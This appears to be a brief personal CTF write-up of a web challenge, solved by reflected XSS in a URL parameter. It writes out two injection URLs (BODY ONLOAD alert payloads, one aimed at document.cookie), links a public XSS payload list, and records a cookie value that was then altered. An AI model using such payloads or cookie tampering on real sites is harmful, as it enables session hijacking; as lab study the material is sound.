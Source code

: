 ![[Pasted image 20211221004020.png]]
#webexploitation 
https://github.com/payloadbox/xss-payload-list
you know the drill
`http://126.34.285.59:726/?p=<BODY ONLOAD=alert('XSS')>`

found this when I searched up `document cookie xss`

`http://126.34.285.59:726/?p=<BODY ONLOAD=alert('document.cookie')>` changed it up to this, and ...

![[Pasted image 20211221004536.png]]
wow, it actually worked
`32f35nh98gf3hy9085g398g35y98f43h9f3g234f27w624`

![[Pasted image 20211221004639.png]]
change the value...
![[Pasted image 20211221004703.png]]

**complete**